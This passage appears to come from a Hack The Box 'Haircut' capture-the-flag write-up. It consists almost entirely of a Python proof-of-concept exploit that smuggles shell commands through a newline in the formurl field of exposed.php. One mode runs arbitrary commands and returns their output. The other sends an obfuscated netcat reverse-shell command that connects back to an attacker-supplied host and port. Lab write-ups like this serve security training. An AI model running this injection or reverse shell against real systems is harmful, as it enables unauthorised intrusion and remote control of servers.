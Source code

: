 After some testing, here is the PoC script that I created.

```python
import argparse
import requests
import sys

def inject_command(target, command):
    headers = {
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    url = f'http://{target}/exposed.php'
    data = f'formurl=http%3A%2F%2Flocalhost%0a{command}&submit=Go'

    print(f'\n[+] Command injected: {command}')
    response = requests.post(url, headers=headers, data=data, timeout=2)

    # alert: the following python code could cause elipepsy
    if '$@' not in command:
        list_from_output = response.text.split('\n')
        previous_line = list(filter(lambda x: '<center>' in x.strip(), list_from_output[::-1]))[0]
        start_index = list_from_output.index(previous_line) + 1
        command_output = '\n'.join(map(lambda x: x.strip(), list_from_output[start_index:-5]))
    
        print(f'\n[+] Output:\n\n{command_output}')
    
def send_revshell(lhost, lport, target):
    try:
        command = f'n$@c%09-c%09sh%09{lhost}%09{lport}'
        inject_command(target, command)

        raise Exception("\n[!] Error: Could NOT establish a reverse shell :(")

    except requests.Timeout:
        print("\n[+] Check your Netcat listener :D")

def set_arguments():
    parser = argparse.ArgumentParser(
        description="HTB Haircut exploit"
    )
    parser.add_argument('-t', '--target', dest='target', required=True)
    parser.add_argument('-m','--mode', dest='mode', choices=['c', 'r'], required=True)
    parser.add_argument('--command', dest='command')
    parser.add_argument('--lhost', dest='lhost')
    parser.add_argument('--lport', dest='lport', default=4444, type=int)
    
    return parser.parse_args()

def main():
    try:
        args = set_arguments()

        # reverse shell mode
        if args.mode == 'r':
            send_revshell(args.lhost, args.lport, args.target)

        # command injection mode
        elif args.mode == 'c':
            inject_command(args.target, args.command)

        sys.exit(0)

    except KeyboardInterrupt:
        print("\n[!] Keyboard interrumpt detected. Quitting!")
```